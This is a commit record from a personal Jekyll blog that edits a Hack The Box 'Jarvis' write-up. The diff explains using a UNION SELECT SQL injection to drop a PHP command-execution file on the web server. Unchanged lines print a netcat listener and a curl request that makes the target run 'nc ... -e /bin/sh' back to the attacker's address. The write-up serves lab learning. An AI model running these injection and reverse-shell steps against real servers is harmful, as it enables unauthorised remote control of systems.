

Before and after one commit to Dreamscent/Dreamscent.github.io, a Jekyll site: the page built from _posts/2019-11-10-HTB-Jarvis.md, in a window 1280 px wide and 1400 px high, scrolled down 6396 px. Shown: the whole window at 94% size, without its empty margins (18-991 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2019-11-10-HTB-Jarvis.md

```diff
--- a/_posts/2019-11-10-HTB-Jarvis.md
+++ b/_posts/2019-11-10-HTB-Jarvis.md
@@ -121,7 +121,7 @@ So we know that the web application runs `php`, we have an SQL injection vulnera
 
 
 
-Here we can write a file echoing(don't forget url encoding!) a simple php 1 liner RCE code into a file on the server. `/var/www/html` is one of the most common directories hosting web pages so we can try that first.
+Here we can write a file echoing(don't forget url encoding!) a simple php 1 liner RCE code into a file on the server. `/var/www/html` is one of the most common directories hosting web pages so we can try that first. We can use a `union select` command to add additional data to be returned by the SQL query. If the number of columns matches the actual number that's returned by the query, an additional row will be appended to the results(I'll probably have to make another post on explaining this). So, we select 6(+1 payload to make 7) to create our query:
 
 
 
@@ -153,7 +153,7 @@ Now that we have the php file on the server, we can execute our netcat reverse s
 # create listener
 nc -lvp 443
 
-# call our reverse shell
+# call our reverse shell(please use a different terminal for this, don't do it in the listner)
 
 curl -X GET "http://10.10.10.143/cmd.php?cmd=nc%2010.10.14.4%20443%20-e%20/bin/sh"
 ~~~
```
Also changed, not shown: other parts of _posts/2019-11-10-HTB-Jarvis.md (+1 -1 lines).
